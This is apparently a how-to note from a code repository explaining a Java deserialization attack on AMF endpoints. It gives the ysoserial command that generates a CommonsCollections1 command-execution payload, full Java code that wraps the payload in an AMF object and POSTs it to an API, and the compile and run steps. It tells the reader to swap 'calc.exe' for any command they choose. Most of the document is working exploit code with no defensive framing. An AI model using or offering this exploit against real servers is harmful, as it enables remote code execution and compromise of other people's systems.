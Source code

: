 # Note

To generate an AMF request payload using the ysoserial tool and send it to an API, follow these steps:

Step 1: Set Up Your Environment

Ensure you have the following in place:

	1.	The required Flex libraries (flex-messaging-common-1.0.jar, flex-messaging-core-1.0.jar, flex-messaging-opt-1.0.jar, flex-messaging-proxy-1.0.jar, flex-messaging-remote-1.0.jar) in your classpath.
	2.	The ysoserial tool, which can be downloaded from its official GitHub repository.

Step 2: Generate Payload with ysoserial

Use ysoserial to generate a payload. For this example, we’ll assume you want to generate a payload that executes a simple command.

Here’s an example command to generate a payload that executes calc.exe on a Windows system:

java -jar ysoserial.jar CommonsCollections1 "calc.exe" > payload

Make sure to replace "calc.exe" with the command you want to execute.

Step 3: Craft AMF Request with Java

Create a Java program to read the payload from the file and include it in an AMF request.

import flex.messaging.io.SerializationContext;
import flex.messaging.io.amf.Amf3Output;
import flex.messaging.io.amf.ASObject;

import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.HttpURLConnection;
import java.net.URL;

public class AMFRequestSender {
    public static void main(String[] args) {
        try {
            // Read the ysoserial generated payload
            InputStream fis = new FileInputStream("./payload");
            byte[] ysoserialPayload = new byte[fis.available()];
            fis.read(ysoserialPayload);
            fis.close();

            // Create the AMF request
            SerializationContext context = new SerializationContext();
            ByteArrayOutputStream baos = new ByteArrayOutputStream();
            Amf3Output amf3Output = new Amf3Output(context);
            amf3Output.setOutputStream(baos);

            // Add the ysoserial payload to an ASObject
            ASObject asObject = new ASObject();
            asObject.put("payload", ysoserialPayload);
            amf3Output.writeObject(asObject);

            byte[] amfRequestPayload = baos.toByteArray();

            // Write the AMF request payload to a file (for debugging purposes)
            FileOutputStream fos = new FileOutputStream("./amf_payload");
            fos.write(amfRequestPayload);
            fos.close();

            // Send the AMF request to the API
            URL url = new URL("http://server/api/");
            HttpURLConnection conn = (HttpURLConnection) url.openConnection();
            conn.setDoOutput(true);
            conn.setRequestMethod("POST");
            conn.setRequestProperty("Content-Type", "application/x-amf");

            OutputStream os = conn.getOutputStream();
            os.write(amfRequestPayload);
            os.flush();
            os.close();

            int responseCode = conn.getResponseCode();
            System.out.println("Response Code: " + responseCode);

            // Handle response here if needed

            conn.disconnect();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

Step 4: Compile and Run the Java Program

Ensure you have all necessary libraries in your classpath and compile the Java program:

javac -cp "path/to/flex-messaging-common-1.0.jar:path/to/flex-messaging-core-1.0.jar:path/to/flex-messaging-opt-1.0.jar:path/to/flex-messaging-proxy-1.0.jar:path/to/flex-messaging-remote-1.0.jar" AMFRequestSender.java

Run the compiled Java program:

java -cp ".:path/to/flex-messaging-common-1.0.jar:path/to/flex-messaging-core-1.0.jar:path/to/flex-messaging-opt-1.0.jar:path/to/flex-messaging-proxy-1.0.jar:path/to/flex-messaging-remote-1.0.jar" AMFRequestSender

Step 5: Verify the Payload

Ensure the payload is sent correctly by checking the API’s response and any side effects of the payload execution.

This step-by-step process will generate an AMF request payload using ysoserial, incorporate it into an AMF request, and send it to the specified API endpoint. Adjust the paths and commands according to your specific requirements.
